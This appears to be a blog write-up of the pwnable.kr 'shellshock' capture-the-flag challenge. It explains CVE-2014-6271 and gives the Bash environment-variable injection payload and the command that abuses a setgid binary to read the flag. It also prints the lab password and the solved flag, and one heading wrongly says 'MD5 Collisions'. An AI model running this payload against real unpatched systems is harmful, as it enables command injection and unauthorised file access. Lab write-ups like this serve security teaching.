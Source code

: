 ```yaml
---
title: "CVE-2014-6271: ShellShock Intro"
excerpt: "As Wiz Khalifa once said: Knock, knock you about to get SHELLSHOCKED!"
date: 2020-03-16T09:24:19-05:00
categories:
 - pwn practice
---
```


# pwnable.kr: Intro to MD5 Collisions

> Mommy, there was a shocking news about bash.
>
> I bet you already know, but lets just make it sure :)
>
> `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

## Given

All we're given in this is a ssh login command, and it's password:

* `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

The tittle of the challenge, combined with the hint suggests we're going to be dealing with something relating to "shellshock" and Bash.

Some quick googling for "Bash shellshock" leads us to the following:
* [National Vulnerability Database on CVE-2014-6271 (a.k.a "ShellShock")](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
* [Wikipedia page on ShellShock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

OK - so it seems like we're going to have to take advantage of a vulnerable bash binary, by storing a command inside an environment variable that will get unintentionally executed?

## First, lets get on the box

```bash
...
shellshock@pwnable:~$
```

OK - we're on.

## Look around

```bash
...
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
...
```

OK - so we have our flag file, a binary, it's source code, and an executable "bash". I imagine this is a specific version of bash that is vulnerable, as opposed to the system itself running that version, because that'd be bad :)

We can check. System's bash version:

```bash
bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

vs the given `bash` binary's version:

```bash
./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Ooof - 2011. From the mentioned wikipedia page, we can use the command given from the initial report to test for vulnerability:

System:

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
```

Vs given:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

Sweet.

## Inspect files

Running the binary just yields:

```bash
./shellshock
shock_me
```
And then it quits.

Looking at the source code:

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

setresuid [man page](http://man7.org/linux/man-pages/man2/setresgid.2.html):
>
> ```c
>       int setresuid(uid_t ruid, uid_t euid, uid_t suid);
>       int setresgid(gid_t rgid, gid_t egid, gid_t sgid);
> ```
>
> `setresuid()` sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.
>
> `setresgid()` sets the real GID, effective GID, and saved set-group-ID of the calling process

If we look at the `shellshock` binary:

```bash
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
```

We see it has the same ownership/access as our flag file:

```bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
```

So, from the `shellshock` binary's user+group, we'd be able to just `cat` the flag (which we can't do as the default shellshock user).

## Takeaway
We need to arbitrarily get the `shellshock` program to execute a `cat /home/shellshock/flag`.


## Closer look at the ShellShock vulnerability
[This](https://fedoramagazine.org/shellshock-how-does-it-actually-work/) Fedora Magazine article does a pretty good job of explaining in layman's terms what the vulnerability is; I'd recommend reading it.

In a nutshell:
* Bash is what we see as a terminal prompt, but also scripting language
* Can define functions, accordingly
* Can use `bash -c` to run a command in a new instance/subprocess of bash.
* This only inherits **the user's environment**, not function definitions (instead, use `export -f <func>; bash -c <cmd>`)

_However_, how bash does this is sketchy because the subprocess still has no notion of inheriting functions, only environment variables. So it needs to create just a regular ol' bash environment variable with our function.

The vulnerability is that bash didn't actually stop after it read a functions (i.e. environment variable) definition. So you could shove additional commands/anything you want and they'd be executed.

That's why the following prints both echo statements:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

We define our "function":

```bash
() { :;}; ...
```

Which is just a nameless function that does nothing (`:`) and that's it. However, we then add it's closing brace and `;`, after which we inject our "attack" (becuase _we can_):

```bash
... echo vulnerable' ...
```

Then, we specify our subprocess, which will need to inherit this new environment variable, and in the process, executing our attack:

```bash
... ./bash -c "echo this is a test"
```

Altogether:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
---------------  ---------------  -------------------------------
 env variable     attack that                   subprocess that is to load our
  to 'inherit'    gets executed                 totally legit "environment variable"
                  bc the vuln
                  when reading env vars
```

So, then, it's clear what we need to get the shellshock to spit out our flag:
* "Attack" is to cat the flag file
* subprocess is to run the shellshock file, which gets the proper user/group access to the file

```bash
env x='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

Flag is `only if I knew CVE-2014-6271 ten years ago..!!`
